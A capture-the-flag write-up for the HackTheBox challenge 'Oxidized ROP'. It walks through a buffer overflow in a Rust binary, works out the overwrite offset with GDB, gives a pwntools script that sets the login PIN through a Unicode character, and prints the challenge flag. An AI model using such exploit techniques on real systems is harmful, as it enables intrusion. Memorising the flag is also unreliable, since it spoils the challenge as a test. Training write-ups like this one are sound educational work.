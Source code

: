 # Oxidized ROP

> Write-up author: jon-brandy


## Lessons Learned:
- RUST code review.
- Local Variable Overwrite using unicode characters.

## DESCRIPTION:

Our workshop is rapidly oxidizing and we want a statement on its state from every member of the team! > flag in `/challenge/flag.txt`

## HINT:
- NONE

## STEPS:
1. In this challenge, we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ab601b6c-8a5f-44ac-8f83-d71adeb32830)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5753d15e-03a9-4c69-8e98-78da40535ba0)


2. Noticed, the challenge author disclosed the source code. Hence no need to decompile the binary **for now**.
3. Upon reviewing the **rust** code, found a BOF vuln at the `save_data()` function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9cbd9971-2815-4847-9bed-f3b34e2b6e98)


4. Based from the snippet code above, we can conclude that `dest` is a mutable reference to an array of `u8` with fixed size of `INPUT_SIZE` --> 200 chars.
5. Then it tries to copy characters from the `src` string to the `dest` buffer. However, the function does not check whether the length of the `src` string exceeds the size of the `dest`  buffer before copying.
6. This could lead to Buffer Overflow.
7. Next, upon reviewing other LOCs, seems our target is to modify the pin value to **123456**. This function can be accessed at menu **2**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7b3ed479-8d3f-458a-bebb-795e132b5820)


8. If we select the second option, we're not allowed to enter a value for the `login_pin`.
9. It's because a global variable named `PIN_ENTRY_ENABLED` os set to false at the beginning. However the pin still checked.
10. So our objective is to utilize the overflow vuln to overwrite the value for local variable `login_pin`.
11. Reviewing the first menu, noticed a `read_user_input()` usage, it's similiar to `gets()` in C. Noticed that `input_buffer` variable is used as the `src` which the boundary is not checked.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/63c4d890-5296-4717-b312-442da756842f)


12. Another things to note in rustpwn, to modify the variable value in rust, we need to encode it so it has wider range of action.
13. Now let's identify the offset.

> USING GDB

```
To identify the offset:

- Starts with send 8 A's then CTRL+C.
- Remembering PIE is enabled, find an address that ends with 11223344.
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a86723c4-2f38-43ff-87c1-cccd7763e5d8)


14. Noticed our input not stored as 0x4141414141414141. Instead, each of them has a length of 4 bytes.
15. At this condition the formula to calculate the offset is:

```
p (0x7fffffffdab0 - 0x7fffffffd918) / 4
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c9af6b74-8554-488d-8db3-b15422d54d5b)


> RESULT --> 102

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a2a8543b-5672-4816-b479-2728989e36fd)


16. Great! Let's send our payload remotely.

> FULL SCRIPT

```py
from pwn import *

exe = './oxidized-rop'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'

# sh = process(exe)
sh = remote('94.237.63.83',51413)
padding = 102
# p = flat([
#     asm('nop') * padding,
#     chr(123456).encode() 
# ])

p = cyclic(102) + chr(123456).encode()

sh.sendlineafter(b':', b'1')
sh.sendlineafter(b':', p)
sh.sendlineafter(b':', b'2')

# gdb.attach(sh)
sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9c4ea9fa-baa9-4946-b267-d5af1f38f290)


17. We've pwned it!

## FLAG

```
HTB{7h3_0r4n63_cr4b_15_74k1n6_0v3r!}
```
